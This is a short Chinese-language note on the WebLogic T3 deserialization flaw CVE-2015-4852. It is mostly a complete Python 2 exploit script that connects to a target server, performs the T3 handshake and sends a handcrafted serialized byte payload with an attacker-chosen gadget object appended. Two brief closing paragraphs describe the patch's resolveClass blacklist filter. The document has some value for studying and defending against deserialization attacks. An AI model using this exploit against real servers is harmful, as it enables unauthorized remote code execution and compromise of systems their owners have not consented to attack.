

- [T3 反序列化(cve-2015-4852)](#t3-反序列化cve-2015-4852)
  - [漏洞原理](#漏洞原理)
    - [攻击脚本](#攻击脚本)
    - [resolveClass(补丁)](#resolveclass补丁)

# T3 反序列化(cve-2015-4852)
## 漏洞原理
根据T3使用序列化的机制传递数据,根据协议构造,替换T3协议中序列化的地方为恶意的序列化数据即可,weblogic在反序列化时触发.
### 攻击脚本
```python
#!/usr/bin/python2
import socket
import os
import sys
import struct

if len(sys.argv) < 3:
    print 'Usage: python %s <host> <port> </path/to/payload>' % os.path.basename(sys.argv[0])
    sys.exit()

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.settimeout(5)

server_address = (sys.argv[1], int(sys.argv[2]))
print '[+] Connecting to %s port %s' % server_address
sock.connect(server_address)

# Send headers
headers='t3 12.2.1\nAS:255\nHL:19\nMS:10000000\nPU:t3://us-l-breens:7001\n\n'
print 'sending "%s"' % headers
sock.sendall(headers)

data = sock.recv(1024)
print >>sys.stderr, 'received "%s"' % data

payloadObj = open(sys.argv[3],'rb').read()

payload='\x00\x00\x09\xf3\x01\x65\x01\xff\xff\xff\xff\xff\xff\xff\xff\x00\x00\x00\x71\x00\x00\xea\x60\x00\x00\x00\x18\x43\x2e\xc6\xa2\xa6\x39\x85\xb5\xaf\x7d\x63\xe6\x43\x83\xf4\x2a\x6d\x92\xc9\xe9\xaf\x0f\x94\x72\x02\x79\x73\x72\x00\x78\x72\x01\x78\x72\x02\x78\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x70\x70\x70\x70\x70\x00\x00\x00\x0c\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x70\x06\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x03\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x03\x78\x70\x77\x02\x00\x00\x78\xfe\x01\x00\x00'
payload=payload+payloadObj
payload=payload+'\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x1d\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x43\x6c\x61\x73\x73\x54\x61\x62\x6c\x65\x45\x6e\x74\x72\x79\x2f\x52\x65\x81\x57\xf4\xf9\xed\x0c\x00\x00\x78\x70\x72\x00\x21\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x65\x65\x72\x49\x6e\x66\x6f\x58\x54\x74\xf3\x9b\xc9\x08\xf1\x02\x00\x07\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x74\x00\x27\x5b\x4c\x77\x65\x62\x6c\x6f\x67\x69\x63\x2f\x63\x6f\x6d\x6d\x6f\x6e\x2f\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2f\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\x3b\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x56\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x97\x22\x45\x51\x64\x52\x46\x3e\x02\x00\x03\x5b\x00\x08\x70\x61\x63\x6b\x61\x67\x65\x73\x71\x00\x7e\x00\x03\x4c\x00\x0e\x72\x65\x6c\x65\x61\x73\x65\x56\x65\x72\x73\x69\x6f\x6e\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x5b\x00\x12\x76\x65\x72\x73\x69\x6f\x6e\x49\x6e\x66\x6f\x41\x73\x42\x79\x74\x65\x73\x74\x00\x02\x5b\x42\x78\x72\x00\x24\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x63\x6f\x6d\x6d\x6f\x6e\x2e\x69\x6e\x74\x65\x72\x6e\x61\x6c\x2e\x50\x61\x63\x6b\x61\x67\x65\x49\x6e\x66\x6f\xe6\xf7\x23\xe7\xb8\xae\x1e\xc9\x02\x00\x09\x49\x00\x05\x6d\x61\x6a\x6f\x72\x49\x00\x05\x6d\x69\x6e\x6f\x72\x49\x00\x0b\x70\x61\x74\x63\x68\x55\x70\x64\x61\x74\x65\x49\x00\x0c\x72\x6f\x6c\x6c\x69\x6e\x67\x50\x61\x74\x63\x68\x49\x00\x0b\x73\x65\x72\x76\x69\x63\x65\x50\x61\x63\x6b\x5a\x00\x0e\x74\x65\x6d\x70\x6f\x72\x61\x72\x79\x50\x61\x74\x63\x68\x4c\x00\x09\x69\x6d\x70\x6c\x54\x69\x74\x6c\x65\x71\x00\x7e\x00\x05\x4c\x00\x0a\x69\x6d\x70\x6c\x56\x65\x6e\x64\x6f\x72\x71\x00\x7e\x00\x05\x4c\x00\x0b\x69\x6d\x70\x6c\x56\x65\x72\x73\x69\x6f\x6e\x71\x00\x7e\x00\x05\x78\x70\x77\x02\x00\x00\x78\xfe\x00\xff\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x46\x21\x00\x00\x00\x00\x00\x00\x00\x00\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\x00\x0b\x75\x73\x2d\x6c\x2d\x62\x72\x65\x65\x6e\x73\xa5\x3c\xaf\xf1\x00\x00\x00\x07\x00\x00\x1b\x59\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\xff\x00\x78\xfe\x01\x00\x00\xac\xed\x00\x05\x73\x72\x00\x13\x77\x65\x62\x6c\x6f\x67\x69\x63\x2e\x72\x6a\x76\x6d\x2e\x4a\x56\x4d\x49\x44\xdc\x49\xc2\x3e\xde\x12\x1e\x2a\x0c\x00\x00\x78\x70\x77\x1d\x01\x81\x40\x12\x81\x34\xbf\x42\x76\x00\x09\x31\x32\x37\x2e\x30\x2e\x31\x2e\x31\xa5\x3c\xaf\xf1\x00\x00\x00\x00\x00\x78'

# adjust header for appropriate message length
payload=struct.pack('>I',len(payload)) + payload[4:]

print '[+] Sending payload...'
sock.send(payload)
data = sock.recv(1024)
print >>sys.stderr, 'received "%s"' % data
```
### resolveClass(补丁)

在后续Weblogic的补丁中,修改了上面触发反序列化类的ObjectOutpurStream中`resolveClass`类,在其中添加了`ClassFilter`进行防御.  

因为`resolveClass`方法的作用是将类的序列化描述符加工成该类的Class对象。所以在这个地方根据类名做黑名单或者白名单防御是一个解决反序列化的方案,遇到黑名单的类则直接抛出异常中断反序列化流程. 